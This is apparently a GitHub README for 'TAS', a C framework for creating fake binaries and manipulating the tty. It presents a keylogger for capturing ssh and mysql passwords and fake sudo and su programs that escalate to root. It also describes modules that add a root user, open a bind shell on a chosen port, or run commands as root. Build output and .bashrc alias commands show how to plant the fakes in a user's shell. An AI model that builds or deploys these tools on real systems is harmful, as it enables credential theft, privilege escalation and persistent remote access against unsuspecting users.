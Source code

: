 TAS
===

A tiny framework for easily manipulate the tty and create fake binaries.

How it works?
-------------

The framework has three main functions, tas_execv, tas_forkpty, and tas_tty_loop.

* **tas_execv:** It is a function similar to execv, but it doesn't re-execute the current binary, something very useful for creating fake binaries.

* **tas_forkpty:** Is the same as forkpty, but it fills a custom structure, check forkpty man page for more details.

* **tas_tty_loop:** here is where the manipulation of the tty happen, you can set a hook function for the input and output, so it is possible to store the keys typed by the user or manipulate the terminal output. (see [leet-shell](#leet-shell)).

This is a superficial overview, check the codes in tas/fakebins/fun folders to understand how it really works.

Fakebins
--------

Through manipulation of the PATH environment variable, or by using bash's aliases (or any other shell that supports aliases), you can run another program instead of the program that the user usually runs. This makes it possible to capture keystrokes and modify the command line to change the original program behavior.

Change the command line of some programs, like sudo and su, can lead to privilege escalation.

I'd created three programs as an example of what you can do with the framework: **sudo**, **su** and **generic-keylogger**.

### generic-keylogger

The **generic-keylogger**, as the name suggests, is a binary that acts like a keylogger, the main idea is to use it to get passwords of programs like ssh, mysql, etc.

### sudo/su

It can be used as a keylogger, or you can run some of the [modules](#modules) as root, by manipulating the command line.

#### Step-by-step cmd change:

The user types ```sudo cmd```  
```fakesudo cmd``` runs  
The fakesudo executes ```sudo fakesudo cmd```

After it is running as root, the fakesudo create a child process for executing some of the modules, and in the main PID, it runs the original command.

> **Note:** fakesudo only changes the command if the user runs ```sudo cmd [args]```, if some additional flags are used, then the command isn't touched.

Almost the same process happens with the **su**:

The user types ```su -```  
```fakesu -``` runs  
The fakesu executes ```su - -c fakesu```

After it is running as root, the fakesu create a child process for executing some of the modules, and in the main PID, it runs ```bash -i```

> **Note:** fakesu only changes the command if the user runs ```su``` or ```su -```, if some additional flags are used, then the command isn't touched.

Modules
-------

For now, there are only three modules:

* *add-root-user* - creates a root user with password in /etc/passwd.
* *bind-shell* - listen for incoming connections and spawn a tty shell.
* *system* - executes a command as root.

I can add more modules in the future, but if you are familiar with the C language, I believe that it is not very difficult to change the programs to run what you want as root, just modify a few lines of code and change the ```super()``` function.

Building
--------

First, build the base library:

```shell
$ make
  CC .obj/globals.o
  CC .obj/getinode.o
  CC .obj/tas-execv.o
  CC .obj/tty.o
  CC .obj/xreadlink.o
  AR .obj/libtas.a
```

After that, you can build **generic-keylogger**, **sudo** or **su**, by running ```make [target-bin]```

**Example:**

```shell
$ make su
make[1]: Entering directory '/home/test/tas/fakebins/su'
[+] configuring fakesu ...
enable keylogger? [y/N] y
number of lines to record [empty = store all]:
logfile (default: /tmp/.keys.txt):
use some FUN modules? [y/N] n
[+] configuration file created in /home/test/tas/fakebins/su/config.h
  CC su
make[1]: Leaving directory '/home/test/tas/fakebins/su'
```

Examples
--------
### Creating a fakessh:

**Compile:**
```shell
$ make generic-keylogger
make[1]: Entering directory '/home/test/tas/fakebins/generic-keylogger'
[+] configuring generic-keylogger ...
number of lines to record [empty = store all]: 3
logfile (default: /tmp/.keys.txt):
[+] configuration file created in /home/test/tas/fakebins/generic-keylogger/config.h
  CC generic-keylogger
make[1]: Leaving directory '/home/test/tas/fakebins/generic-keylogger'
```

**Install:**
```shell
$ mkdir ~/.bin
$ cp generic-keylogger ~/.bin/ssh
$ echo "alias ssh='$HOME/.bin/ssh'" >> ~/.bashrc
```

**In action:**

![Demo](https://raw.githubusercontent.com/hc0d3r/tas/media/generic-keylogger.gif)

### Using the bind-shell module

**Compile:**
```shell
make[1]: Entering directory '/home/test/tas/fakebins/sudo'
[+] configuring fakesudo ...
enable keylogger? [y/N] n
use some FUN modules? [y/N] y
[1] add-root-user
[2] bind-shell
[3] system
[4] cancel
> 2
listen port (Default: 1337): 5992
[+] configuration file created in /home/test/tas/fakebins/sudo/config.h
  CC sudo
make[1]: Leaving directory '/home/test/tas/fakebins/sudo'
```

**Install:**

```shell
$ cp sudo ~/.sudo
$ echo "alias sudo='$HOME/.sudo'" >> ~/.bashrc
```

**In action:**

![Demo](https://raw.githubusercontent.com/hc0d3r/tas/media/fakesudo.gif)

leet-shell
----------
leet-shell is an example of how you can manipulate the tty output, it allows you to use the bash like a 1337 h4x0r.

```shell
[test@alfheim tas]$ make fun/leet-shell
  CC fun/leet-shell
[t3st@alfheim tas]$ fun/leet-shell
SP4WN1NG L33T SH3LL H3R3 !!!
[t3st@4lfh31m t4s]$ 3ch0 'l33t sh3ll 1s l33t !!!'
l33t sh3ll 1s l33t !!!
```

Notes
-----
Somethings can make the fake-programs not work as expected:

* whitelisted sudo commands.
* /proc/ unvaliable (/proc/self/exe is used to obtain the binary fullname).

The sudo will always ask for the password when the keylogger function is used in the fakesudo.

**How to protect yourself?**  
This is a post-exploitation technique to performs privilege escalation and information gathering, if you want to protect yourself, not be invaded is a good way to start...

Contributing
------------
You can help with code, or donating money.
If you wanna help with code, use the kernel code style as a reference.

Paypal: [![](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=RAG26EKAYHQSY&currency_code=BRL&source=url)

BTC: 1PpbrY6j1HNPF7fS2LhG9SF2wtyK98GSwq
